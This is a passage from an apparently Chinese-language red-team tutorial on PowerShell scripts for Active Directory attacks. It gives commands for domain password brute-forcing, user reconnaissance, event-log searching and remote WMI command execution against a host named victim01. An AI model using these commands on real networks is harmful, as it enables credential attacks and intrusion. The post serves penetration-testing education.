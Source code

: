 - Dump-UserEmail

https://github.com/Mr-Un1k0d3r/RedTeamPowershellScripts/blob/master/scripts/Utility.ps1


![](https://images2018.cnblogs.com/blog/549050/201806/549050-20180613193434747-2020884276.png)

- 域密码破解 

这并不一定是最隐秘的方法，从提取的用户列表暴力破解用户的密码。

https://github.com/Mr-Un1k0d3r/RedTeamPowershellScripts/blob/master/scripts/Invoke-ADPasswordBruteForce.ps1

```
"neo","morpheus" | Invoke-ADPasswordBruteForce -Password "password" -Domain MATRIX
```

这个cmdlet支持其他域，甚至可以对其他受信任域执行穷举破解。

穷举破解依赖于ValidateCredentials()方法，它很明显地连接到DC，特别是如果试图强制所有用户使用穷举破解时。

- 查找基于名称特定用户的SamAccountName

https://github.com/Mr-Un1k0d3r/RedTeamPowershellScripts/blob/master/scripts/Search-FullNameToSamAccount.ps1

```
Search-FullNameToSamAccount -Filter Hamilton
```

![](https://images2018.cnblogs.com/blog/549050/201806/549050-20180613201026400-81187557.png)

- 搜索当前用户的计算机

这一项需要提升权限，搜索当前用户的计算机。

https://github.com/Mr-Un1k0d3r/RedTeamPowershellScripts/blob/master/scripts/Search-EventForUser.ps1

```
Search-EventForUser -TargetUser charles.hamilton -FindDC true
```

在DC的所有事件日志中搜索登录事件

- 获取浏览器书签以发现感兴趣的内部资产

https://github.com/Mr-Un1k0d3r/RedTeamPowershellScripts/blob/master/scripts/Get-IEBookmarks.ps1

```
Get-IEBookmarks
```

### 6、工具和技巧

WDIGEST没有返回任何内容，但是当前用户在另一个系统上具有本地管理权限。

- 使用Kerberos票据利用WMI远程连接

https://github.com/Mr-Un1k0d3r/RedTeamPowershellScripts/blob/master/scripts/Remote-WmiExecute.ps1

```
Remote-WmiExecute -ComputerName victim01 -Payload "cmd.exe /c whoami"
```
谈到Kerberos票据——为什么有时会拒绝访问?
